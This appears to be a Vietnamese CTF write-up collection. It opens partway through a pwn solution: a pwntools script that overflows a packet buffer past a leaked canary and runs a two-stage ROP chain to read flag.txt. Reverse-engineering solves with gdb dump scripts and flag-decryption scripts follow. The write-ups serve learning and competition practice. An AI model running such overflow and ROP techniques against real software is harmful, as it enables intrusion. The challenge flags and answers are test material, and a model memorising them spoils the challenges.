    # --- tầng 1: overflow route_packet; saved rbp được set sẵn = bss ---
    stage1 = flat(
        p_rax, 0, p_rdi, 0, p_rsi, bss, p_rdx, 0x200, syscall,  # read(0,bss,0x200)
        leave_r,        # mov rsp,bss ; pop rbp ; ret -> thực thi [bss+8]
    )
    payload = b'A' * 0x48 + p64(canary) + p64(bss) + stage1
    assert len(payload) <= 0xb0, len(payload)

    p.sendlineafter(b'Packet length:', str(len(payload)).encode())
    p.recvuntil(b'Packet data:')
    p.send(payload)

    # --- tầng 2: chain ORW đầy đủ đặt tại bss (thực thi từ bss+8) ---
    readbuf   = bss + 0x300
    chain_len = 32 * 8                       # openat/read/write/exit
    path_addr = bss + 8 + chain_len
    chain = flat(
        p_rax, 257, p_rdi, 0xffffffffffffff9c, p_rsi, path_addr, p_rdx, 0, syscall,  # openat
        p_rax, 0, p_rdi, 3, p_rsi, readbuf, p_rdx, 0x100, syscall,                   # read
        p_rax, 1, p_rdi, 1, p_rsi, readbuf, p_rdx, 0x100, syscall,                   # write
        p_rax, 231, p_rdi, 0, syscall,                                               # exit_group
    )
    assert len(chain) == chain_len
    stage2 = p64(0) + chain + b'flag.txt\x00'
    p.send(stage2)

    data = p.recvall(timeout=3)
    m = re.search(rb'grodno\{[^}]*\}', data)
    if m:
        log.success('FLAG: %s', m.group().decode())
    else:
        log.info('output:\n%s', data.decode(errors='ignore'))
    p.close()


if __name__ == '__main__':
    exploit()
```

**Output:**
```
[+] Starting local process '/home/caterpie/GuCTF/pwn/red_tide_terminal_revenge/red_tide_terminal_revenge': pid 5511
[+] canary   = 0x87a4f21efcb90c00
[+] PIE base = 0x5e9fe7419000
[+] Receiving all data: Done (272B)
[+] FLAG: grodno{fake_flag}
```

### 5. Flag
```
grodno{fake_flag}
```
*(Flag thật đã submit trực tiếp lúc thi qua service của BTC, không lưu lại; giá trị trên chỉ minh hoạ định dạng.)*


# Reverse Engineering

## Challenge info

---
> Date: 15/7/2026 :beaver:     
> Owner: Khoi nguyen - Nova:dragon_face:   
> Tools reverse : Ghidra   
> Challenge: Write The "Кодэ" from Junior Crypt 2026 CTF :   
> Target: checker   
> Platform: Linux  
--- 


Lệnh biên dịch file là `./tcc -B./runtime checker.c -o checker`

## Recon 
- File `checker.c ` đi kèm :
```c
extern int audit(const char *answer);

int main(void)
{
    char answer[128];
    puts("Build provenance check");
    fputs("receipt: ", stdout);
    if (!fgets(answer, sizeof answer, stdin))
        return 1;
    answer[strcspn(answer, "\n")] = 0;
    puts(audit(answer) ? "accepted" : "rejected");
    return 0;
}
```
=> checker này kiểm tra input bằng một hàm có tên là audit, và nó được nhúng vào khi mà biên dịch file 

`file checker`
checker: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, stripped
=> file có stripped nên file đã bị xóa sysmbol table 

## Analysis static 

Khi mà phân tích ra thì ta thu được mã giả của hàm audit là 

```c
undefined8 audit(char *input) {
  input_ = input;
  key = create_key();
  constant = 0xc0dec0de;
  if (((key != 0) && (len = strlen(input_), len < 0x61)) &&
     (mem = mmap(0x0,0x200,3,0x22,-1,0), mem != 0xffffffffffffffff)) {
    for (i = 0; i < 0x200; i = i + 1) {
      mem_i_ = mem + i;
      mix_data(&key);
      *mem_i_ = (&b4d504758dc45add)[i] ^ extraout_var;
    }
    mprotect(mem,0x200,5);
    l_51 = *mem;
    if (((7 < l_51) && (l_51 < 0x1f5)) && (mem[1] == 'Q')) {
      j = 3;
      for (i = 0; i < l_51; i = i + 1) {
        if (((0x200 < j + 7U) || (*(mem + j) != -0x59)) || (input_[i] == '\0')) goto LAB_004025fd;
        constant = constant ^ input_[i] + *(mem + j + 1);
        lVar1 = j + 3;
        constant = (constant << (*(mem + j + 2) & 0x1f) |constant >> (0x20 - (*(mem + j + 2) & 0x1f) & 0x1f)) +  (i * 0x45d9f3b ^ 0x9e3779b9U);
        lVar2 = j + 4;
        lVar3 = j + 5;
        lVar4 = j + 6;
        j = j + 7;
        if (constant != CONCAT13(*(mem + lVar4),CONCAT12(*(mem + lVar3),CONCAT11(*(mem + lVar2),*(mem + lVar1))) )) goto LAB_004025fd;
      }
      if (input_[l_51] == '\0') {
        munmap(mem,0x200);
        return 1;
      }
    }
LAB_004025fd:
    munmap(mem,0x200);
  }
  return 0;
}

```

Hàm audit này tạo 1 vùng nhớ có độ dài là 512 byte  

Và lấp đầy mem bằng cách :
```c
key = create_key();
  if (((key != 0) && (len = strlen(input_), len < 0x61)) && (mem = mmap(0x0,0x200,3,0x22,-1,0), mem != 0xffffffffffffffff)) {
    for (i = 0; i < 0x200; i = i + 1) {
      mem_i_ = mem + i;
      mix_data(&key);
      *mem_i_ = (&b4d504758dc45add)[i] ^ extraout_var;
    }
```
1.  Tạo 1 khóa và nó có giá trị cố định; 
2. Trộn khóa bằng hàm mix_data
3. Và sau khi trộn xong thì nó sẽ dịch bit:
```c
0040238a e8 81 fe        CALL       mix_data                                         undefined mix_data()
          ff ff
0040238f 48 c1 e8 38     SHR        len,0x38
00402393 48 c1 e0 38     SHL        len,0x38
00402397 48 c1 e8 18     SHR        len,0x18
0040239b 48 c1 e8 20     SHR        len,0x20
```
4. Sau đó nó sẽ xor với một chuỗi cố định tại địa chỉ `&00405b94` có các giá trị là `b4d504758dc45add`

 
Tiếp theo hàm sẽ bắt đầu vòng lặp với  `j = 3 và i = 0 ` chạy tới `l_51`
Khi mà debug bằng gdb thì mình thu được giá trị của `l_51` = `0x33` = `51`   
Và sau khi làm gọn code thì ta có :  
```c
constant = 0xc0dec0de;
j = 3;
for (i = 0; i < 0x33; i = i + 1) {
  if (((0x200 < j + 7) || (mem[j] != -0x59)) || (input_[i] == '\0')) break;
  constant = constant ^ input_[i] + mem[ j + 1 ];
  constant = (constant << ( mem[ j + 2 ] & 0x1f) | constant >> (0x20 - (mem[ j + 2 ] & 0x1f) & 0x1f)) 
  constant +=  (i * 0x45d9f3b ^ 0x9e3779b9);
  constant_en = CONCAT13( mem[ j + 6 ] ,CONCAT12( mem[ j + 5 ] ,CONCAT11( mem[ j + 4 ] , mem[ j + 3 ] ) ) )
  if (constant != constant_en ) break;
   j = j + 7;
}
```
=> vòng lặp này nhằm mục đích biến đổi `input` bằng cách + với `mem[j+1] ` và sau đó  xor với `0xc0dec0de`   
=> tiếp theo nó thực hiện phép xoay trái bit (Rotate Left - ROL) `constant` và + với `(i * 0x45d9f3b ^ 0x9e3779b9);`
=> sau cùng nó sẽ so sánh với 1 constant đã mã hóa được lưu trong `mem`
=> Vậy nếu ta dump được dữ liệu của `mem` và `constant_en` thì là ta sẽ đảo ngược lại được vì các hàng số khi mã hóa `input` nó cố định 
=> chỉ cần debug là chúng ta lấy được flag  :fire:  :fire: :fire: :fire: :fire:

## Analysis static 

Mình sẽ debug bằng `gdb` vì nó là file ELF và chuỗi mà mình sẽ thử sẽ là   
`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0`  
Một số breakpoint mà mình dùng để hiểu chương trình :

```c
break *0x00402296
  commands
    echo \n--- ham audit ---\n
  end
break *0x004022a5
  commands
    echo \n create key \n
  end
break *0x00402314
  commands
    echo \n Create mem \n 
  end
break *0x00402335
  commands
    echo \n start loot set value mem \n
  end
break *0x004022d0
  commands
    echo \n Check len input 0x61 \n
  end
break *0x004023b0
  commands
    echo \n Finish loot set value mem and we can get value of mem here \n
  end
break *0x004023f0 
  commands 
    echo \n check 7 < uVar \n 
  end
break *0x004024fe
  commands 
    echo \n--- check len mem : (uVar1 < 0x1f5) ----\n
  end
break *0x00402416
  commands
    echo \n--- check mem[1] == 'Q' || 0x51  ---\n 
  end 
break *0x00402429 
  commands 
    echo \n--- start for with j = 3 ---\n 
  end 
break *0x004024a2
  commands 
    echo \n--- check (input_[i] == '\0' | JNZ LAB_004024b0 => true | LAB_004024ab :return 0 ---\n 
  end
break *0x0040243b
  commands 
    echo \n--- for(i=0; i<len(mem);i++) | JNC LAB_004025c3 => out for ---\n 
  end
break *0x004025b1
  commands 
    echo \n cmp constant_en \n 
  end 
```


Và sau khi debug bằng những breakpoint trên thì mình thu được :  
Tại địa chỉ `mem` lưu giá trị:  
```c
pwndbg> x/64gx 0x7ffff7ffa000
Địa chỉ              Giá trị 1           Giá trị 2
0x7ffff7ffa000:	0xfa460131a7510033	0x6590a1087aa71ff4
0x7ffff7ffa010:	0x5f560f810fc3a78f	0xa78f87798b160ca7
0x7ffff7ffa020:	0x9ea7a131f47e1d55	0x0ce7a7b222141205
0x7ffff7ffa030:	0x121330a7a55dcdfd	0xd59c1a79a7ed154e
0x7ffff7ffa040:	0xbd338d02c2a7e08f	0x3007226e090ba73b
0x7ffff7ffa050:	0xa7d105de371054a7	0xe6a7463c926c179d
0x7ffff7ffa060:	0x062fa77885910f1e	0x5d0d78a7c48e2ce1
0x7ffff7ffa070:	0xd77314c1a7a4d6a6	0x9e320a1b0aa753a8
0x7ffff7ffa080:	0xc593e14e0353a7fe	0xa71c4c77ee0a9ca7
0x7ffff7ffa090:	0x2ea7b6d941bd11e5	0x1f77a7f5504faf18
0x7ffff7ffa0a0:	0x7007c0a7f8e4fe67	0xaf680e09a76cdddf
0x7ffff7ffa0b0:	0x41cc0f1552a76eb4	0x2e996f161c9ba7ee
0x7ffff7ffa0c0:	0xa7d57f97d204e4a7	0x76a7e0c482780b2d
0x7ffff7ffa0d0:	0x19bfa7eb3bf32812	0x220108a72ea64937
0x7ffff7ffa0e0:	0x3e4f0851a776adc4	0xd560c60f9aa7c349
0x7ffff7ffa0f0:	0x6b83d1c716e3a7ad	0xa7146c36d11d2ca7
0x7ffff7ffa100:	0xbea790a3e4970575	0x1307a77e1b23480c
0x7ffff7ffa110:	0x771a50a755aecc54	0x62790299a721caf3
0x7ffff7ffa120:	0x90553909e2a7b7c3	0x7f0f19a7102ba7b3
0x7ffff7ffa130:	0xa7e3ce4edc1774a7	0x06a75713bb991ebd
0x7ffff7ffa140:	0x0d4fa71f32847b06	0x581498a7a77ec909
0x7ffff7ffa150:	0x30811be1a7d3d1ba	0xa584dc032aa74659
0x7ffff7ffa160:	0xda8f12390a73a77e	0x0000000000000000
```
Giá trị constant_en 2 lần thử mình thu thập được :
```c
j = 3 :
i = 0x0 < 0x33 

&j = 0x7fffffffdb50
&i = 0x7fffffffdb58 
&input = 0x7fffffffdb90
&mem =0x7fffffffdb70 | mem = 0x7ffff7ffa000
&constant = 0x7fffffffdb4c 

i = 0 
j = 3
=> constant_en = 0x1ff4fa46 

i = 1 
j = 10
=> constant_en = 0x8f6590a1
```

Mình lấy được `constant_en` bằng cách đặt breakpoint tại `0x4025b1` sau đó xem giá trị của thanh ghi `rcx` là ta có thể lấy được giá trị `constant_en`  
Và vì loot tới 51 lẫn nên muốn lấy được thì ta chỉ cần viết script mỗi khi tới breakpoint địa chỉ `0x4025b1` sau đó dump ra giá trị thanh ghi `rcx` và chỉnh giá trị thanh ghi `rax` bằng thanh ghi `rcx` là ta chạy tiếp được (`rax`  là thanh ghi lưu giá trị `constant` mã hóa bằng `input`  )  



Đây là script mình viết để tự động dump ra:  

```python
import gdb

f_flag = open("constant_flag.txt", "w")
f_mem= open("mem.txt","w")


class BP_dump_mem(gdb.Breakpoint):
    def stop(seft):
        inferior = gdb.selected_inferior()
        data = bytes(inferior.read_memory(0x7ffff7ffa000, 0x200))
        print(data)
        for b in data:
            f_mem.write(f"{b:02x}\n")
            f_mem.flush()
        return False  


class BP_dump_j(gdb.Breakpoint):
    def stop(self):
        rax = int(gdb.parse_and_eval("$rax"))
        print(f"j = {rax}")
        return False


class BP_dump_flag_en(gdb.Breakpoint):
    def stop(self):
        rcx = int(gdb.parse_and_eval("$rcx"))
        print(f"{hex(rcx)}")
        f_flag.write(f"{hex(rcx)}\n")
        f_flag.flush()
        gdb.execute(f"set $rax={hex(rcx)}")
        return False 


class BP_debug(gdb.Breakpoint):
    def stop(self):
        print(f"hit 0x004025d1 : Check byte 51 is == 0 ?")
        return True  
  

BP_dump_mem("*0x4023b0")
BP_dump_j("*0x40245e")
BP_dump_flag_en("*0x4025b1")
BP_debug("*0x004025d1")
gdb.execute("run")
```

Sau khi dump được các giá trị của `mem` và `en_constant` thì ta chỉ cần đảo ngược lại thuật toán là ra được :  

```python
with open("constant_flag.txt", "r") as f:
    constant_en = f.readlines()
with open("mem.txt", "r") as f:
    mem = f.readlines()

constant_c0 = 0xc0dec0de
j = 3
flag_str = ""

for i in range(0, 51):
    constant_flag = int(constant_en[i], 16)
    mem_j_2 = int(mem[j + 2], 16)
    rot = mem_j_2 & 0x1f

    constant_origin = (constant_flag - (i * 0x45d9f3b ^ 0x9e3779b9)) & 0xffffffff
    constant_origin = (constant_origin >> rot | constant_origin << (0x20 - rot)) & 0xffffffff

    flag = (constant_origin ^ constant_c0) - int(mem[j + 1], 16)
    flag &= 0xff                    

    flag_str += chr(flag)

    constant_c0 = constant_flag
    j += 7

print(flag_str)
```
khi chạy ta thu được `grodno{Fabrice_Bellard_is_a_really_cool_programmer}`

## Rev004: WrongKube+++ (Reverse Engineering)

### 1. Thông tin tổng quan
- **Category:** Reverse Engineering
- **Difficulty:** Medium
- **Tags:** PyInstaller, Native DLL, Static Analysis, Cryptography Bypass

### 2. Đề bài
Chào mừng đến với trùm cuối của series cấu hình Kubernetes: **WrongKube+++**. Bài toán cung cấp file thực thi `WrongKube+++.exe` (~37MB).

Lần này ứng dụng đưa người chơi xuống hẳn "địa ngục" của DevOps với chuỗi validation khổng lồ: Thêm stage "phantom", số lượng máy ảo (VM) tăng lên đến VM6 tạo thành "Sextuple Witness" (6 lớp xác minh). Câu hỏi đặt ra là: Liệu tác giả có chịu sửa lỗ hổng hay không?

### 3. Quá trình phân tích

**Bước 1: Extract & Decompile**
Làm tương tự bài 002 và 003, dùng `pyinstxtractor` giải nén file để lấy file Native DLL (`wrongkube_validator.dll`).

**Bước 2: Phân tích DLL**
Mở DLL lên bằng IDA Pro và tiến thẳng vào hàm `validate_cluster`. Nhìn thoáng qua, code validation K8s đã dài và đáng sợ hơn gấp nhiều lần so với phiên bản trước.

Tuy nhiên, có vẻ tác giả của ứng dụng này quyết tâm trung thành với triết lý "Hardcode là chân ái". 
Khối code giải mã Flag đã được di chuyển vị trí (chuyển lên hẳn đoạn đầu hàm tại địa chỉ `0x180001f50`) để đánh lừa những ai dùng script tự động tìm mẫu byte cũ. Thế nhưng **BẢN CHẤT LỖ HỔNG VẪN KHÔNG ĐỔI**. Vòng lặp giải mã flag **VẪN ĐỘC LẬP TƯƠNG ĐỐI** với logic K8s. Nó chỉ dùng các hằng số (constants) nội bộ và trỏ tới một mảng tĩnh mới tại `0x18002d5a0`.

**Điểm khác biệt duy nhất so với Rev003:**
1. Hằng số khởi tạo (Seed) `B` bị đổi thành `0x34AF33DB`.
2. Mảng chứa byte mồi (Source Array) nằm ở địa chỉ mới `0x18002d5a0`.
3. Khối code sinh flag di chuyển lên đầu function.
4. Điều kiện dừng vòng lặp là `idx == 0x31` $\rightarrow$ độ dài flag là 48 bytes.

**Hướng giải quyết:**
"Quá tam ba bận", chúng ta tiếp tục phớt lờ hoàn toàn mớ bòng bong Sextuple Witness kia và bê nguyên vòng lặp giải mã bằng Assembly ra để chạy trên Python.

### 4. PoC

Dưới đây là script Python trích xuất thẳng cờ bằng luồng Assembly trích từ DLL:

`solve.py`:
```python
##!/usr/bin/env python3

## Mảng 48 bytes trích xuất từ 0x18002d5a0 trong wrongkube_validator.dll (bản +++)
ARR = bytes.fromhex(
    '79694d7bb7ad642a5d0bb78d5c528ddf301ad2872aeeefd9'
    'e5be9cb008df2be010f58ff60e04fa5adc9b3d7dbc490b78')
M = 0xFFFFFFFF

def solve():
    # Khởi tạo hằng số (Seed B thay đổi thành 0x34AF33DB)
    B, R9, R14, R12, R13, S = 0x34AF33DB, 0x49, 0x47502943, 0x47502932, 0x3C6EF35F, 0
    flag = bytearray(48)
    idx = 1
    
    # Điều kiện dừng ở 0x31 (tương đương 48 bytes)
    while idx != 0x31:
        eax = ((B * 0x19660D) & M) + R13 & M
        flag[idx - 1] = (ARR[idx - 1] ^ ((R9 - 0x49) & M ^ (eax >> 16)) ^ eax) & 0xFF
        
        ecx2 = (B * 0x17385CA9) & M
        Bnew = (S + (((S | 1) << 4) & M) + 1 + R12 + ecx2) & M
        ecx2 = (ecx2 + R14) & M
        flag[idx] = ((ecx2 >> 16) ^ R9 ^ ARR[idx] ^ ecx2) & 0xFF
        
        # Cập nhật trạng thái
        S += 2
        R9 = (R9 + 0x92) & M
        R14 = (R14 + 0x35F8DDC) & M
        R12 = (R12 + 0x35F8DBA) & M
        R13 = (R13 + 0x22) & M
        B = Bnew
        idx += 2
        
    return flag.decode()

if __name__ == '__main__':
    print(solve())
```

**Output:**
```
grodno{wr0ngkub3ppp_4by55_0r4cl3_qu0rum_3xtr3m3}
```

### 5. Flag
```
grodno{wr0ngkub3ppp_4by55_0r4cl3_qu0rum_3xtr3m3}
```

### 6. Bài học rút ra
- **Kỹ thuật mới học được:** Ôn tập lại sự ngoan cố của một số lập trình viên khi sửa lỗi (chỉ cố tình giấu mã, thay đổi hằng số, đổi vị trí - hay còn gọi là Security through Obscurity) chứ không chịu sửa từ cội nguồn thuật toán (Fixing the Root Cause).
- **Cách phòng chống:** Một lần nữa, **State-Dependent Decryption** là bắt buộc. Khóa để giải mã flag PHẢI phụ thuộc chặt chẽ vào một input hoặc token hợp lệ từ logic puzzle (ví dụ như lấy output của bước VM6 làm Khóa XOR cho mảng flag).

### 7. Tham khảo
- Static Analysis and Cryptography Bypass in Reverse Engineering.

## Rev003: WrongKube++ (Reverse Engineering)

### 1. Thông tin tổng quan
- **Category:** Reverse Engineering
- **Difficulty:** Medium
- **Tags:** PyInstaller, Native DLL, Static Analysis, Cryptography Bypass

### 2. Đề bài
Đây là phần tiếp theo (follow-up) của bài **Rev002 (WrongCube+)**. Bài toán cung cấp file thực thi `WrongKube++.exe` (~37MB).

Lần này ứng dụng yêu cầu thiết lập mạng lưới K8s cluster với nhiều rule validation phức tạp hơn nữa. Cụ thể là có thêm stage "specter" (VM4) để tạo thành Quadruple Witness (4 lớp xác minh), đồng thời bổ sung thêm cả thuật toán mã hóa tên FNV. Tuy nhiên, liệu lập trình viên có rút ra bài học từ phiên bản trước?

### 3. Quá trình phân tích

**Bước 1: Extract & Decompile**
Làm tương tự bài 002, dùng `pyinstxtractor` để giải nén PyInstaller. Frontend vẫn là PyQt6, gọi xuống Native DLL (`wrongkube_validator.dll`).

**Bước 2: Phân tích DLL**
Sử dụng IDA Pro, dịch ngược hàm `validate_cluster` trong DLL mới.
Mặc dù khối lượng code check validation (Kubernetes nodes/edges) phình to gấp bội, nhưng tác giả lại phạm phải y chang một **"sai lầm chí mạng"** như bài 002.
Cụ thể, vòng lặp giải mã flag nằm tại `0x180005030` **vẫn hoàn toàn độc lập** với mọi biến đầu vào của puzzle K8s. Hàm này chỉ dùng một số hằng số được hardcode và giải mã một mảng tĩnh tại `0x18002b310`.

**Điểm khác biệt duy nhất so với Rev002:**
1. Hằng số khởi tạo (Seed) `B` đổi từ `0xF73449EF` thành `0xC5B1D2FF`.
2. Mảng chứa byte mồi (Source Array) thay đổi và chuyển sang địa chỉ `0x18002b310`.
3. Vòng lặp giải mã có điều kiện dừng sớm giữa chừng ở `idx == 0x2D` $\rightarrow$ độ dài flag giảm từ 46 bytes xuống còn 45 bytes.

**Hướng giải quyết:**
Vẫn y hệt cũ, bỏ qua mớ hỗn độn validation K8s (specter, vm4, v.v.), chỉ cần nhấc đúng vòng lặp giải mã ra và viết script chạy độc lập.

### 4. PoC

Dưới đây là script Python trích xuất thẳng flag bằng cách mô phỏng lại luồng Assembly ở cuối DLL:

`solve.py`:
```python
##!/usr/bin/env python3

## Mảng 45 bytes trích xuất từ 0x18002b310 trong wrongkube_validator.dll bản mới
ARR = bytes.fromhex(
    '5af15fcc5eb7c05c993f14789329288441b7d56a193399e6'
    'bd5eae554d00ee6e253f6a29ab99faa90d34562f7200')
M = 0xFFFFFFFF

def solve():
    # Khởi tạo hằng số (Seed B đã bị đổi so với v1)
    B, R9, R14, R12, R13, S = 0xC5B1D2FF, 0x49, 0x47502943, 0x47502932, 0x3C6EF35F, 0
    flag = bytearray(45)
    idx = 1
    
    while True:
        eax = ((B * 0x19660D) & M) + R13 & M
        flag[idx - 1] = (ARR[idx - 1] ^ ((R9 - 0x49) & M ^ (eax >> 16)) ^ eax) & 0xFF
        
        # Điều kiện thoát mới (Mid-loop exit): Độ dài flag là 45 bytes
        if idx == 0x2D:
            break
            
        ecx2 = (B * 0x17385CA9) & M
        Bnew = (S + (((S | 1) << 4) & M) + 1 + R12 + ecx2) & M
        ecx2 = (ecx2 + R14) & M
        flag[idx] = ((ecx2 >> 16) ^ R9 ^ ARR[idx] ^ ecx2) & 0xFF
        
        # Cập nhật trạng thái
        S += 2
        R9 = (R9 + 0x92) & M
        R14 = (R14 + 0x35F8DDC) & M
        R12 = (R12 + 0x35F8DBA) & M
        R13 = (R13 + 0x22) & M
        B = Bnew
        idx += 2
        
    return flag.decode()

if __name__ == '__main__':
    print(solve())
```

**Output:**
```
grodno{wr0ngkub3pp_5p3ctr4l_qu0rum_0v3rdr1v3}
```

### 5. Flag
```
grodno{wr0ngkub3pp_5p3ctr4l_qu0rum_0v3rdr1v3}
```

### 6. Bài học rút ra
- **Kỹ thuật mới học được:** Khi gặp các bài toán tiếp nối (Series / v1, v2), hãy luôn ưu tiên kiểm tra xem lỗ hổng cũ đã thực sự được vá kỹ chưa. Việc áp dụng Data Flow Analysis (phân tích sự phụ thuộc của đầu vào/đầu ra) vẫn phát huy sức mạnh tuyệt đối để tiết kiệm thời gian dịch ngược.
- **Cách phòng chống:** Y hệt phiên bản trước. Việc đổi Hằng số (Seed) hay chuyển địa chỉ mảng băm tĩnh (Hardcoded Array) là vô nghĩa trong Reverse Engineering nếu thuật toán băm đó không bị ràng buộc (bind) chặt chẽ với input gốc của Puzzle.

### 7. Tham khảo
- Kỹ thuật dịch ngược Data Flow Analysis (Phân tích Luồng dữ liệu).

## Rev002: WrongCube+ (Reverse Engineering)

### 1. Thông tin tổng quan
- **Category:** Reverse Engineering
- **Difficulty:** Medium
- **Tags:** PyInstaller, Native DLL, Static Analysis, Cryptography Bypass

### 2. Đề bài
Bài toán cung cấp một file thực thi `WrongCube+.exe` dung lượng khá lớn (~37MB). 

Khi chạy, đây là một ứng dụng đồ họa PyQt6 mô phỏng việc thiết lập một mạng lưới cluster Kubernetes (K8s). Nhiệm vụ của người chơi (dựa trên UI) dường như là phải vượt qua một puzzle kiểm tra logic rất phức tạp (như manifest, meta, shadow, triple witness...) về cách thiết lập các node và edges để cluster hoạt động.

### 3. Quá trình phân tích

**Bước 1: Extract PyInstaller**
Dung lượng lớn của file `.exe` độc lập đa nền tảng thường là dấu hiệu của **PyInstaller**. Dùng công cụ `pyinstxtractor` để giải nén file, ta thu được thư mục `WrongCube+.exe_extracted`. Bên trong chứa toàn bộ thư viện PyQt6 và file script gốc đã được biên dịch thành bytecode `.pyc` (như `src/validator_bridge.pyc`), kèm theo một file thư viện Native là `wrongkube_validator.dll`.

**Bước 2: Phân tích file Python (`validator_bridge.py`)**
Dịch ngược file `.pyc`, ta thấy script này chỉ đơn thuần đóng vai trò là giao diện (Frontend). Mỗi khi người dùng bấm xác nhận, nó sẽ gom cấu trúc đồ thị (Nodes, Edges) thành định dạng JSON rồi gọi hàm native export `validate_cluster` bên trong file `wrongkube_validator.dll`.
Hàm DLL này sẽ trả về JSON kết quả có dạng `{"ok": bool, "score": int, "flag": "..."}`.

**Bước 3: Phân tích Native DLL (Phát hiện Bypass)**
Sử dụng IDA Pro hoặc Ghidra để decompile `wrongkube_validator.dll` (cụ thể là hàm `validate_cluster`).
Ta thấy hàm này có một khối logic cực lớn để parse JSON và đánh giá điểm của K8s cluster. Tuy nhiên, khi dò theo dấu vết cách sinh ra "flag" ở cuối luồng xử lý (`0x180005390`), một lỗ hổng nghiêm trọng lộ diện:
- Vòng lặp giải mã flag **HOÀN TOÀN ĐỘC LẬP** với dữ liệu K8s Cluster!
- Vòng lặp này chỉ sử dụng các hằng số (constants) tĩnh có sẵn và giải mã một mảng byte cứng dài 46-byte nằm tại vị trí `0x18002bf00`.
- Không có bất kỳ biến đầu vào nào từ bước validate cluster được dùng làm seed hay key cho quá trình giải mã.

**Hướng giải quyết:**
Bỏ qua hoàn toàn bài toán logic K8s hầm hố. Ta chỉ cần viết script mô phỏng lại (bằng Python) vòng lặp giải mã tĩnh ấy để trích xuất thẳng flag.

### 4. PoC

Dưới đây là đoạn script Python tái tạo lại thuật toán giải mã flag 1:1 từ mã Assembly của DLL, sử dụng mảng bytes trích xuất qua `radare2` hoặc `IDA` từ địa chỉ `0x18002bf00`:

`solve.py`:
```python
##!/usr/bin/env python3

## Mảng 46 bytes trích xuất từ 0x18002bf00 trong wrongkube_validator.dll
ARR = bytes.fromhex(
    '079f0864d3e9f960d86c37a9d4185d53d642fe3a6cac57f8'
    '1d4a0455ca6fea13a8c2008802d720317b5b7491313e')
M = 0xFFFFFFFF

def solve():
    # Khởi tạo hằng số dựa trên các thanh ghi ban đầu
    B, R9, R14, R12, R13, S = 0xF73449EF, 0x49, 0x47502943, 0x47502932, 0x3C6EF35F, 0
    flag = bytearray(46)
    idx = 1
    
    # Vòng lặp giải mã (23 iterations, mỗi iter sinh 2 bytes)
    while idx != 0x2F:
        eax = ((B * 0x19660D) & M) + R13 & M
        ecx = ((R9 - 0x49) & M) ^ (eax >> 16)
        
        # Sinh Byte 1
        flag[idx - 1] = (ARR[idx - 1] ^ ecx ^ eax) & 0xFF
        
        ecx2 = (B * 0x17385CA9) & M
        Bnew = (S + (((S | 1) << 4) & M) + 1 + R12 + ecx2) & M
        ecx2 = (ecx2 + R14) & M
        
        # Sinh Byte 2
        flag[idx] = ((ecx2 >> 16) ^ R9 ^ ARR[idx] ^ ecx2) & 0xFF
        
        # Cập nhật trạng thái
        S += 2
        R9 = (R9 + 0x92) & M
        R14 = (R14 + 0x35F8DDC) & M
        R12 = (R12 + 0x35F8DBA) & M
        R13 = (R13 + 0x22) & M
        B = Bnew
        idx += 2
        
    return flag.decode()

if __name__ == '__main__':
    print(solve())
```

**Output:**
```
grodno{5h4d0w_c0ntr0l_pl4n3_qu0rum_r3c0nc1l3d}
```

### 5. Flag
```
grodno{5h4d0w_c0ntr0l_pl4n3_qu0rum_r3c0nc1l3d}
```

### 6. Bài học rút ra
- **Kỹ thuật mới học được:** Hiểu được sự khác biệt giữa Data Flow (luồng dữ liệu) và Control Flow (luồng điều khiển). Kẻ tấn công giỏi sẽ dùng Taint Analysis (hoặc Cross-References dò ngược bằng mắt) để truy xem hàm sinh ra cờ thực sự nhận đầu vào từ đâu, qua đó tránh bị cuốn vào cái bẫy reverse những mảng logic thừa thãi.
- **Cách phòng chống:** Khi thiết kế các thử thách client-side hoặc mã hóa cấp phép, cờ (hoặc token) bắt buộc phải được mã hóa mà **khóa giải mã phải phụ thuộc trực tiếp vào trạng thái input hợp lệ** (ví dụ hash của đáp án đúng). Tránh thiết kế theo kiểu khóa cứng/hằng số được bảo vệ hời hợt bằng một câu lệnh rẻ tiền như `if (is_valid) print(decrypt_flag_with_constants());`.

### 7. Tham khảo
- Kỹ thuật giải nén file PyInstaller với `pyinstxtractor` và dịch ngược bytecode.
- Data Flow Analysis trong Reverse Engineering (IDA Pro, Ghidra).

